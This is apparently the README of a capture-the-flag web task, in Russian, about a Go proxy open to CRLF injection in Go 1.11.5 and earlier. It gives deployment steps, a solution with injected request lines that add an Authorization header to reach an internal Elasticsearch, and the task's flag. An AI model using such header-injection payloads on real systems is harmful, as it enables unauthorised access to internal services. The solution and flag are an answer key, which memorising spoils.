 # Web | easy | Gap

# Информация
Псс, здаров! 

Начал изучать go, решил запилить прокси. Если доступ ограничат, то можно ходить через него. Правда он еще не все умеет...будем считать это alpha версией

## Деплой
1. Поменять флаг на нужный
2. ПРи необходимости изменить порт таска (сервис прокси)
```bash
   cd deploy
   docker-compose up
```

## Выдать участникам
IP:PORT
Файл public/docker-compose.yml

## Описание
Таск основан на уязвимости CRLF в старых версиях go (<= 1.11.5). Задача - выполнить запрос к внутренним ресурсам, установив заголовок Authorization

## Решение
1. Заходим на страницу и вводим в поле строки
2. ```
   db:9200?pretty=true HTTP/1.1\nAuthorization: Basic Y3RmY3VwOmN0ZmN1cA
   ```
   где (Y3RmY3VwOmN0ZmN1cA = base64(login:pass) = base64(ctfcup:ctfcup))

   таким образом мы понимаем, что там elasticsearch (если по порту это не ясно)
3. db:9200/_aliases?pretty=true HTTP/1.1\nAuthorization: Basic Y3RmY3VwOmN0ZmN1cA
4. db:9200/smth_interesting/_search?pretty=true&q=*:* HTTP/1.1\nAuthorization: Basic Y3RmY3VwOmN0ZmN1cA
5. Сдаем флаг

[exploit](solution/exploit.py)

# Флаг
CUP{b061ac18135f641c21f8f429efe4d1a47d7acc37}
